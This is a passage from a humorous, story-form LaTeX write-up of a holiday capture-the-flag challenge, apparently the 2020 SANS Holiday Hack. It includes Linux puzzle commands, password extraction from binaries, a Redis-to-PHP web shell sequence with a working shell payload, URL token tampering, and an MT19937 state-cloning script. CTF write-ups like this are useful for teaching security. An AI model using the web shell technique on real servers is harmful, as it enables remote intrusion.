  elf.moveLeft(2 + (4 * i))
  pull((i * 4) + 1)
  elf.moveUp(3 + (4 * i))
  pull((i * 4) + 2)
  elf.moveRight(4 + (4 * i))
  pull((i * 4) + 3)
  lever += 4
}
elf.moveUp(2)
elf.moveLeft(4)
elf.tell_munch(my_func)
elf.moveUp(2)
\end{minted}

- I think that's the last one.

\begin{minted}{javascript}
function getKeyByValue(arr) {
  var str = ""
  arr.forEach(obj => Object.keys(obj).filter(function(key) {
    if (obj[key] === "lollipop") {
      str = key
    }
  }))
  return str
}

function levers() {
  nums = []
  for (i = 0; i < 6; i++) {
    nums.push(elf.get_lever(i))
  }
  sums = []
  sums[0] = nums[0]
  for (i = 1; i < 6; i++)
    sums[i] = sums[i - 1] + nums[i]
  return sums
}

function up() {
  elf.moveUp(2)
}
sums = levers()
pos = 0
for (i = 1; i < 13; i += 4) {
  elf.moveRight(i)
  elf.pull_lever(sums[pos])
  up()
  elf.moveLeft(i + 2)
  elf.pull_lever(sums[pos + 1])
  up()
  pos += 2
}
elf.tell_munch(getKeyByValue)
elf.moveRight(11)
\end{minted}

{\color{codegreen}Ribb Bonbowford} was that impressed that he gave them an achievement for finishing all the levels. Cindy Lou though focused more on another Santavator hint. Someone could manipulate the Santavator. Maybe, someone didn't even need to find all objects.

Our two heroes decided to move to Courtyard. On the upper left corner of the courtyard, another item waited for them. A \textit{green lamp}. Grinch didn't even find it funny.

\subsection{Courtyard and Sugarplum Mary}
Many people were there, including this strange looking bloke\footnote{Yes, pun definitely intended.}, called {\color{codegreen}Jack Frost}. Grinch kinda cringed looking at him but Cindy Lou dragged him in front of {\color{codegreen}Sugarplum Mary}. She asked whether their Linux-Fu was up to date. Cindy Lou yawned and started typing\footnote{I won't explain any commands. It is useful to become familiar with \textit{man} command. Oh, and \textit{apropos} maybe}.

\begin{minted}{bash}
elf@primer:~$ ls
HELP  munchkin_19315479765589239  workshop
elf@primer:~$ cat munchkin_19315479765589239
munchkin_24187022596776786
elf@primer:~$ rm -f munchkin_19315479765589239
elf@primer:~$ pwd
/home/elf
elf@primer:~$ ls -lah
total 56K
drwxr-xr-x 1 elf  elf  4.0K Dec 26 21:40 .
drwxr-xr-x 1 root root 4.0K Dec 10 18:14 ..
-rw-r--r-- 1 elf  elf    31 Dec 10 18:18 .bash_history
-rw-r--r-- 1 elf  elf   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 elf  elf  3.1K Dec  5 00:00 .bashrc
-rw-r--r-- 1 elf  elf     0 Dec 26 21:40 .munchkin_5074624024543078
-rw-r--r-- 1 elf  elf   807 Apr  4  2018 .profile
-rw-r--r-- 1 elf  elf   168 Dec  5 00:00 HELP
drwxr-xr-x 1 elf  elf   20K Dec 10 18:19 workshop
elf@primer:~$ history
    1  echo munchkin_9394554126440791
    2  ls
    3  cat munchkin_19315479765589239
    4  rm -f munchkin_19315479765589239
    5  pwd
    6  ls -lah
    7  history
    8  env
    9  history
elf@primer:~$ env
<snip>
elf@primer:~/workshop$ cd workshop
elf@primer:~/workshop$ grep -ir "munchkin" .
./toolbox_191.txt:mUnChKin.4056180441832623
elf@primer:~/workshop$ which lollipop_engine # Not in $PATH
elf@primer:~/workshop$ ls lollipop_engine
lollipop_engine # IN this dir
elf@primer:~/workshop$ chmod +x lollipop_engine
elf@primer:~/workshop$ ./lollipop_engine
munchkin.898906189498077
elf@primer:~/workshop$ cd electrical/
elf@primer:~/workshop/electrical$ mv blown_fuse0 fuse0
elf@primer:~/workshop/electrical$ ln -s fuse0 fuse1
elf@primer:~/workshop/electrical$ cp fuse1 fuse2
elf@primer:~/workshop/electrical$ echo "MUNCHKIN_REPELLENT" >> fuse2 # >> means append
elf@primer:~/workshop/electrical$ cd /opt/munchkin_den
elf@primer:/opt/munchkin_den$ find . -iname '*munchkin*'
./apps/showcase/src/main/resources/mUnChKin.6253159819943018
elf@primer:/opt/munchkin_den$ find . -type f -user 'munchkin'
./apps/showcase/src/main/resources/template/ajaxErrorContainers/niKhCnUm_9528909612014411
elf@primer:/opt/munchkin_den$ find . -type f -size +108k -size -110k
./plugins/portlet-mocks/src/test/java/org/apache/m_u_n_c_h_k_i_n_2579728047101724
elf@primer:/opt/munchkin_den$ ps aux
<snip>
elf@primer:/opt/munchkin_den$ netstat -plnt
<snip>
elf@primer:/opt/munchkin_den$ curl http://localhost:54321
munchkin.73180338045875
elf@primer:/opt/munchkin_den$ ps aux | grep 14516_munchkin | awk '{print $2}'
3503
5966 # This is the PID of GREP
elf@primer:/opt/munchkin_den$ kill -9 3503
\end{minted}

\subsection{Objective 3}
Looks like they somehow managed to lock themselves out and the only thing we have is a binary copy.
Cindy Lou brought out her work laptop and proceeded to work on the problem.
She proceeded to install \textit{NPM} and \textit{ASAR}.

\begin{minted}{bash}
$ wget https://download.holidayhackchallenge.com/2020/santa-shop/santa-shop.exe
$ file santa-shop.exe
santa-shop.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive
$ 7z x santa-shop.exe
<snip>
$ cd \$PLUGINSDIR/
$PLUGINSDIR $ 7z x app-64.7z
$PLUGINSDIR $ cd resources
resources $ asar e app.asar app/
resources $ cd app
app $ grep -ir "passw" ./
<snip>
.//main.js:const SANTA_PASSWORD = 'santapass';
<snip>
\end{minted}

Although their objective was done, Grinch was nowhere to be found.
Grinch wandered off and ended up in the kitchen.

\subsection {Stop eating Grinch}
Grinch couldn't stop eating. That candy was delicious. Cindy Lou checked in with the elves and since it was fine, it decided to take a look at the challenges.
Cindy Lou decided to help {\color{codegreen}Holly Evergreen}. Redis wasn't really her thing but taking a look wouldn't really hurt. After all, she \href{https://book.hacktricks.xyz/pentesting/6379-pentesting-redis}{read} about Redis RCEs recently. She could probably alter some exploit and get it done.
After playing with it a bit, she formulated a plan.

\begin{minted}{bash}
player@redis:~$ # Init recon
player@redis:~$ cat /etc/**release**
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
player@redis:~$ # HTTP is reading from /var/www/html
player@redis:~$ curl http://localhost/maintenance.php?cmd=config,set,dir,
/var/www/html/
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dir'
'/var/www/html/'

OK
player@redis:~$ curl http://localhost/maintenance.php?cmd=config,set,
dbfilename,sh.php
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dbfilename'
'sh.php'

OK
# We will create a backdoor. The user will be redis in this case.
player@redis:~$ curl 'http://localhost/maintenance.php?cmd=set,test,
<?=`$_GET[0]`?>'
Running: redis-cli --raw -a '<password censored>' 'set' 'test'
'<?=`$_GET[0]`?>'

OK
player@redis:~$ curl http://localhost/maintenance.php?cmd=save
Running: redis-cli --raw -a '<password censored>' 'save'

OK
# Test fire
player@redis:~$ curl http://localhost/sh.php?0=ls --output -
<snip>
sh.php

# Works. Move file to /tmp/. Redis will not have perms to write on our home DIR
player@redis:~$ curl http://localhost/sh.php?0=cp+index.php+/tmp/ --output -
player@primer:~$ cat /tmp/index.php
\end{minted}

Cindy Lou found that "bug" joke somehow horrible but she didn't mention a thing. She checked quickly on Grinch's well-being, he was already stuffing his third turkey down his throat.
{\color{codegreen}Holly Evergreen} thanked Cindy and mentioned something about a Tag Generator and gave some hints. Cindy went on to fix the internet.

{\color{codegreen}Fitzy Shortstack} was desperate to fix the internet. Cindy Lou thought it would have been some fiber issue but it turns out she had no clue. She dragged Grinch to help her.
Grinch didn't really like it, but after having 4 sodas he decided to help. His plan was easy, he fixed such stuff back in his university years.

\begin{itemize}
  \item Call 756-8347
  \item Ba DEE Brrr
  \item Aah
  \item Wewewrrr
  \item Bedurnditty
  \item schrrrrschrrr
\end{itemize}

Although {\color{codegreen}Fitzy Shortstack} was ecstatic, Cindy Lou was looking Grinch in a strange way.

- I guess technology has evolved since then.

As they were getting ready to head off, {\color{codegreen}Fitzy Shortstack} mentioned that Santa really trusts {\color{codegreen}Shinny Uppatree}. Well, is this another hint?

\textit{Narrator's voice.} I guess we will all learn in the next chapters.

    \newpage

    \chapter{Objective 4}

\section{Introduction}

Our heroes were heading towards the elevator. As they were passing through the Great Room, Grinch saw a splunk screen.
As he tried to log in, {\color{codegreen}Angel Candysalt} came rushing in the room. It turns out that Splunk is charging \footnote{I like Splunk, I'm just highlighting the subtle art of "The more sources the merrier, we may not need them and my rules may make no sense but I don't man that chair so I'm ok, merging my rules in production, kbye now.".} tons of money so only Santa and some elves are allowed to touch it.
The others were caught adding in random sources without properly QAing them. Not only the bill skyrocketed, we were buried with alerts.

Our two heroes started feeling like Santa had betrayed them but they continued with the elevator.
\subsection{A small bypass}
\textit{Narrator steps in again} If you inspect closely the data sent by the https://elevator.kringlecastle.com you will see that some data is passed in in the URL.
Up to this point, there is another nut that I haven't mentioned located near the Javascript machine. Using Chrome's tools, you can actually "get" all items available.

\begin{figure}[h!]
  
\includegraphics[scale=0.5]{chrome-data}
  \caption{Printscreen showcasing the data stored in the browser.}
\end{figure}

Altering the object is easy, you can directly add whatever objects/attributes you want in the URL, as evidenced in the following printscreen.
\newpage
\begin{figure}[h!]
  
\includegraphics[scale=0.5]{chrome-url}
  \caption{The tokens= part of the URL can be changed to add any object.}
\end{figure}

- Go home narrator, this is our story.

\subsection {Back on track}
Cindy Lou quickly found a way to operate the Santavator.
\begin{figure}[h!]
  
\includegraphics[scale=0.4]{Santavator-1}
  \caption{Power is headed to the Green bulb}
\end{figure}

Our heroes managed to operate the Santavator and head to the talks lobby.

    \newpage

    \chapter{Objective 5}
Our heroes were super excited for the Talks lobby. As they started wandering around, they noticed that right behind {\color{codegreen}Chimney Scissorsticks} is a red lightbulb. He mentioned something about greeting cards, which
Grinch liked so he checked it out. It looked like a cute Image Generator, so Grinch went ahead and stored some images in his laptop to send to his colleagues.

Walking around, they bumped into {\color{codegreen}Bushy Evergreen}. He had trouble opening a door. Sure, Grinch could help.

\subsection{The door binary}
This is fairly trivial, because we can use \textit{strings}
\begin{minted}{bash}
elf@7ffd5dda212e ~ $ strings door | grep pass
/home/elf/doorYou look at the screen. It wants a password. You roll your eyes - the
password is probably stored right in the binary. There's gotta be a
Be sure to finish the challenge in prod: And don't forget, the password is "Op3nTheD00r"
Beep boop invalid password
elf@7ffd5dda212e ~ $ ./door
You look at the screen. It wants a password. You roll your eyes - the
password is probably stored right in the binary. There's gotta be a
tool for this...

What do you enter? > Op3nTheD00r
Checking......

Door opened!
\end{minted}

Generally, it is a bad idea to hardcode credentials, whether you do it in binary files or in scripts. Just don't do it.
\subsection {Lights binary}
Grinch went in the room and it was dark, so he went back and started helping the poor elf with his password problems.
Apparently, not only he has issues with his lights, he needs to evaluate an RFID door.

Per his hint, we need to set the password as the name.

\begin{minted}{bash}
# Alter the lights.conf file
elf@8a8c7a9fa846 ~/lab $ cat lights.conf
password: E$ed633d885dcb9b2f3f0118361de4d57752712c27c5316a95d9e5e5b124
name: E$ed633d885dcb9b2f3f0118361de4d57752712c27c5316a95d9e5e5b124
elf@8a8c7a9fa846 ~/lab $ ./lights

The speaker unpreparedness room sure is dark, you're thinking (assuming
you've opened the door; otherwise, you wonder how dark it actually is)

You wonder how to turn the lights on? If only you had some kind of hin---

 >>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lab/lights.conf

---t to help figure out the password... I guess you'll just have to make do!

The terminal just blinks: Welcome back, Computer-TurnLightsOn # Passwd

What do you enter? >
\end{minted}

Grinch opened up the original binary
\begin{minted}{bash}
elf@2d7c99d71386 ~ $ ./lights
The speaker unpreparedness room sure is dark, you're thinking (assuming
you've opened the door; otherwise, you wonder how dark it actually is)

You wonder how to turn the lights on? If only you had some kind of hin---

 >>> CONFIGURATION FILE LOADED, SELECT FIELDS DECRYPTED: /home/elf/lights.conf

---t to help figure out the password... I guess you'll just have to make do!

The terminal just blinks: Welcome back, elf-technician

What do you enter? > Computer-TurnLightsOn
Checking......

Lights on!
\end{minted}
and there was light.

\subsection{Vending Machine Binary}
We know from the hints, the following:
\begin{itemize}
  \item The elf is telling us to try 8 Characters
  \item By inspecting the config file, the range is A-Z, a-z, 0-9
  \item If we try more than 8 characters, i.e. AAAAAAAAA the 9th character encodes like the 1st thus the algorithm repeats itself.
  \item The password is 10 characters long.
  \item The elf told us that if we remove the file, we can set our own password and see how it's "encrypted"
\end{itemize}

There are many solutions and Grinch was lucky because he figured the password without going through the whole range of characters.
But in reality, a solution would look more like
\begin{itemize}
  \item Remove the vending-machine.json file
  \item For every one of 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ, put it as input, e.g. AAAAAAAA
  \item Store result
  \item Inspect to figure out the password
\end{itemize}

Grinch though started with capitals first. Reaching C, he realized that the first and fifth letter \footnote{Remember, we are inputting 8-blocks of the same character.} of the password was C and the password was 10 characters long.
CandyCanes is 10 characters. He tried it, and he was super excited that he skipped on writing an algorithm, until he hit a road block. He was missing the last character. After a little trial and error, he went ahead and consulted Cindy Lou.

- Maybe try some numbers?

Indeed, the password was CandyCane1.

\begin{minted}{bash}
elf@94dc698810f2 ~ $ ./vending-machines
The elves are hungry!

If the door's still closed or the lights are still off, you know because
you can hear them complaining about the turned-off vending machines!
You can probably make some friends if you can get them back on...

Loading configuration from: /home/elf/vending-machines.json

I wonder what would happen if it couldn't find its config file? Maybe that's
something you could figure out in the lab...

Welcome, elf-maintenance! It looks like you want to turn the vending machines back on?
Please enter the vending-machine-back-on code > CandyCane1
Checking......

Vending machines enabled!!
\end{minted}

He was super excited. After learning from the elf that Proxmark could scan other badged he rushed in the room to get candy off of the candy machine. Sadly, the candy machine was not working. Meanwhile, Cindy Lou found out another item they were missing, a button.

Cindy stopped him right there.

- You know, we may have to go around and scan elves to get somewhere that we are not allowed to.

- Yeah, well, good thing Shinny Uppatree is highly appreciated by Santa. I'd scan him.

\subsection {Snowball Machine}

Grinch was feeling betrayed, the vending machine didn't work and he really wanted that candy. On the other hand, Cindy Lou was already eye-balling that Snowball machine.
Maybe we can win it, somehow. She chatted with {\color{codegreen}Tangle Coalbox}. He was just hanging there by the Snowball Machine in the Speaker Unpreparedness room. He hinted that maybe the machine was using a PRNG that wasn't cryptographically secure.

- Maybe, if I find a way to find the seeds, I can predict the state.

She went ahead and watched that talk, and grabbed the source code. By looking at the game, she realized that she could possibly game it and win.
She inspected the source code of the game in impossible and she saw that the game comments out (in HTML) the rejected seeds. Maybe if she fed them in that script, she could win that game and get even more hints. While Grinch was focused on food, she was focused on hints.
Her gameplan was:
\begin{itemize}
  \item Grab the seeds from the source code.
  \item Feed them into the script so that the MT is in sync with the seeds produced by the snowball machine.
  \item Open the game in another tab and put in the next seed produced by her script in the easiest level.
  \item Figure out the enemy positions
  \item Win in impossible.
\end{itemize}
She figured it would be easy to verify. If the positions between the two games matched, she'd be right.

She cobbled together a script
\begin{minted}{python}
#!/usr/bin/env python3

import random

class mt19937():
    u, d = 11, 0xFFFFFFFF
    s, b = 7, 0x9D2C5680
    t, c = 15, 0xEFC60000
    l = 18
    n = 624

    def my_int32(self, x):
        return(x & 0xFFFFFFFF)

    def __init__(self, seed):
        w = 32
        r = 31
        f = 1812433253
        self.m = 397
        self.a = 0x9908B0DF
        self.MT = [0] * self.n
        self.index = self.n + 1
        self.lower_mask = (1 << r) - 1
        self.upper_mask = self.my_int32(~self.lower_mask)
        self.MT[0] = self.my_int32(seed)
        for i in range(1, self.n):
            self.MT[i] = self.my_int32((f * (self.MT[i - 1] ^ (self.MT[i - 1] >> (w - 2))) + i))

    def extract_number(self):
        if self.index >= self.n:
            self.twist()
            self.index = 0
        y = self.MT[self.index]
        # this implements the so-called "tempering matrix"
        # this, functionally, should alter the output to
        # provide a better, higher-dimensional distribution
        # of the most significant bits in the numbers extracted
        y = y ^ ((y >> self.u) & self.d)
        y = y ^ ((y << self.s) & self.b)
        y = y ^ ((y << self.t) & self.c)
        y = y ^ (y >> self.l)
        self.index += 1
        return self.my_int32(y)

    def twist(self):
        for i in range(0, self.n):
            x = (self.MT[i] & self.upper_mask) + (self.MT[(i + 1) % self.n] & self.lower_mask)
            xA = x >> 1
            if(x % 2) != 0:
                xA = xA ^ self.a
            self.MT[i] = self.MT[(i + self.m) % self.n] ^ xA

def untemper(y):
    y ^= y >> mt19937.l
    y ^= y << mt19937.t & mt19937.c
    for i in range(7):
        y ^= y << mt19937.s & mt19937.b
    for i in range(3):
        y ^= y >> mt19937.u & mt19937.d
    return y
# Paste your seeds here.
comments = """
    3265172653 - Not random enough
    1042856531 - Not random enough
"""
def parse_comments():
    data = comments.split('\n')[1:-1]
    numbers = []
    for comment in data:
        numbers.append(int(comment.strip().split('-')[0].strip()))
    return numbers

if __name__ == "__main__":
    numbers = parse_comments()

    # create our own version of an MT19937 PRNG.
    myprng = mt19937(0)

    print("Feeding %i numbers from comments var.\nWe'll use those values to create a clone of the current state of Python's built-in PRNG..." % (mt19937.n))
    for i in range(mt19937.n):
        myprng.MT[i] = untemper(numbers[i])
    print("Now, we'll test the clone...")
    print("\nOur clone (pick the first number)")
    for i in range(5):
        r2 = myprng.extract_number()
        print("%10.10i" % (r2))
\end{minted}
... Sure enough she won. {\color{codegreen}Tangle Coalbox} gave them some hints that baffled our heroes.
\subsection{Santavator... Again}
Having completed everything in that floor, our heroes decided to head back to the santavator. with minor adjustments, they figured they could visit different floors. After all, they had the missing button and the red lamp.
\begin{figure}[h!]
